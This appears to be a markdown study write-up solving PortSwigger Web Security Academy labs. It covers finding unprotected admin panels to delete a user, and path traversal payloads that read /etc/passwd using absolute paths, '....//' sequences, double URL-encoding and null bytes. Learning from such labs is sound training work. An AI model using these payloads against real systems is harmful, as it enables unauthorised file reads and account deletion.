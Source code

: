 # 🔬 Vulnerability Labs

---

## [Access control vulnerabilities](https://portswigger.net/web-security/all-labs#access-control-vulnerabilities)

> 🔗 **Resources**
>
> - 📽️ [Broken Access Control (Long Version) - Rana Khalil](https://www.youtube.com/playlist?list=PLuyTk2_mYISId4_l9YET7Gv29cHcNguq-)

### [Unprotected admin functionality](https://portswigger.net/web-security/access-control/lab-unprotected-admin-functionality)

Find the admin panel and delete the user `carlos`.

```bash
GET /robots.txt

# Response
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 45

User-agent: *
Disallow: /administrator-panel
```

![](.gitbook/assets/2024-01-27_18-50-50_386.png)

```bash
GET /administrator-panel
```

![](.gitbook/assets/2024-01-27_18-51-41_387.png)

```bash
GET /administrator-panel/delete?username=carlos
# User deleted
```

![](.gitbook/assets/2024-01-27_18-52-59_388.png)

![](.gitbook/assets/2024-01-27_18-53-41_389.png)

### [Unprotected admin functionality with unpredictable URL](https://portswigger.net/web-security/access-control/lab-unprotected-admin-functionality-with-unpredictable-url)

Find the unpredictable admin panel and delete user `carlos`.

```bash
GET /login
```

![](.gitbook/assets/2024-01-27_19-21-10_390.png)

- Admin panel found in the code of the `/` or `/login` page response for example

```bash
<script>
var isAdmin = false;
if (isAdmin) {
   var topLinksTag = document.getElementsByClassName("top-links")[0];
   var adminPanelTag = document.createElement('a');
   adminPanelTag.setAttribute('href', '/admin-ge6wcp');
   adminPanelTag.innerText = 'Admin panel';
   topLinksTag.append(adminPanelTag);
   var pTag = document.createElement('p');
   pTag.innerText = '|';
   topLinksTag.appendChild(pTag);
}
</script>
```

```bash
GET /admin-ge6wcp
```

![](.gitbook/assets/2024-01-27_19-24-40_391.png)

```bash
GET /admin-ge6wcp/delete?username=carlos
# User deleted
```

![](.gitbook/assets/2024-01-27_19-26-44_392.png)

![](.gitbook/assets/2024-01-27_19-28-31_393.png)



---

## [Path traversal](https://portswigger.net/web-security/all-labs#path-traversal)

> 🔗 **Resources**
>
> - 📽️ [What is Directory Traversal? - Intigriti](https://www.youtube.com/watch?v=17KYOIf5ZbU)
> - 📽️ [Directory Traversal attacks are scary easy - TCM](https://www.youtube.com/watch?v=99yJtmmtrJU)
> - 📽️ [Directory Traversal Playlist- z3nsh3ll](https://www.youtube.com/playlist?list=PLWvfB8dRFqbbO2wRawnn6u8JlfttA74wE)
> - 📽️ [Directory Traversal (Long Version) - Rana Khalil](https://www.youtube.com/playlist?list=PLuyTk2_mYISL2DdD_m1ELEjpiPKxV98MO)

### [Simple case](https://portswigger.net/web-security/file-path-traversal/lab-simple)

Open `BurpSuite` - Turn off the intercept - Open its internal Browser and open the lab link - Check `HTTP history` for intercepted requests - Check `Images` in the Filter settings

- Find a fetched product image Request
  - right click on it and `Send to Repeater`, or select it and press `CTRL+R`
- Change the Request

```bash
# From this
GET /image?filename=5.jpg

# To this
GET /image?filename=../../../etc/passwd
```

![/etc/passwd content](.gitbook/assets/2024-01-27_10-30-32_377.png)

### [Traversal sequences blocked with absolute path bypass](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass)

The app blocks path traversal sequences but treats the filename as relative to a default working directory.

```bash
GET /image?filename=21.jpg

GET /image?filename=../../../etc/passwd # 400 Bad Request

# Try with absolute path
GET /image?filename=/etc/passwd
```

![](.gitbook/assets/2024-01-27_12-17-09_379.png)

### [Traversal sequences stripped non-recursively](https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively)

The app strips path traversal sequences from the supplied filename before using it.

```bash
GET /image?filename=....//....//....//etc/passwd
```

![](.gitbook/assets/2024-01-27_12-28-46_381.png)

### [Traversal sequences stripped with superfluous URL-decode](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode)

The app blocks input containing path traversal sequences and then performs URL-decode before using it.

- With `../../../etc/passwd` it does not work
- Use BurpSuite **Decoder** to ***double URL-Encode*** the `../../../etc/passwd` string
  - `\` `/` should always be encoded

```bash
..%2f..%2f..%2fetc%2fpasswd # 400 Bad Request - URL-encoded once

# Doubl URL-Encoded
GET /image?filename=..%252f..%252f..%252fetc%252fpasswd
```

![](.gitbook/assets/2024-01-27_13-25-59_382.png)

### [Validation of start of path](https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path)

The application transmits the full file path and validates that it starts with the expected folder.

```bash
GET /image?filename=/var/www/images/../../../etc/passwd
# or (better)
GET /image?filename=%2fvar%2fwww%2fimages%2f..%2f..%2f..%2fetc%2fpasswd
```

![](.gitbook/assets/2024-01-27_13-31-38_384.png)

### [Validation of file extension with null byte bypass](https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass)

The app validates the supplied filename end with expected file extension.

- Use a null byte character `\0` to represent the end of the string
  - `../../../etc/passwd\0.png` > `..%2f..%2f..%2fetc%2fpasswd%00.png`
  - the O.S. requests retrieval of the string, it assumes the string is terminated after `passwd`

```bash
GET /image?filename=../../../etc/passwd%00.png
# URL-encoded
GET /image?filename=..%2f..%2f..%2fetc%2fpasswd%00.png
```

![](.gitbook/assets/2024-01-27_13-37-10_385.png)

---





---

